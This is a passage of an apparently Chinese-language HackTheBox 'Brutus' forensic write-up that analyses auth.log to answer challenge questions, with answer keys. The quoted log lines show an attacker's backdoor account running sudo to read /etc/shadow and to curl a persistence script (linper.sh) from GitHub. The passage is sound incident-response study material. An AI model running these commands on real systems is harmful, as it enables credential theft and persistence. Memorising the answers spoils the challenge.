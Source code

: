 **Ans: T1136.001**

### Question 7
> How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)

從 `auth.log` 尋找 session 37 的相關紀錄，然後計算開始到結束的時間差。結果送出答案後是錯的，所以改用 `wtmp` 的時間試試看，Bingo！

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep "session 37"
Mar  6 06:32:44 ip-172-31-35-28 systemd-logind[411]: New session 37 of user root.
Mar  6 06:37:24 ip-172-31-35-28 systemd-logind[411]: Removed session 37.
```

![](images/Time_Calculator.png)

**Ans: 279**

### Question 8
> The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?

攻擊者新建的後門帳戶使用高權限去下載惡意腳本，前面提到該帳戶被加入 `sudo` 群組，所以 `grep` 字串 `sudo` 發現有兩個命令被執行，其中一個正是透過 `curl` 下載腳本。

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brutus]
└─$ cat auth.log | grep "sudo"      
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to group 'sudo'
Mar  6 06:35:15 ip-172-31-35-28 usermod[2628]: add 'cyberjunkie' to shadow group 'sudo'
Mar  6 06:37:57 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/cat /etc/shadow
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session opened for user root(uid=0) by cyberjunkie(uid=1002)
Mar  6 06:37:57 ip-172-31-35-28 sudo: pam_unix(sudo:session): session closed for user root
Mar  6 06:39:38 ip-172-31-35-28 sudo: cyberjunkie : TTY=pts/1 ; PWD=/home/cyberjunkie ; USER=root ; COMMAND=/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh
```

**Ans: /usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh**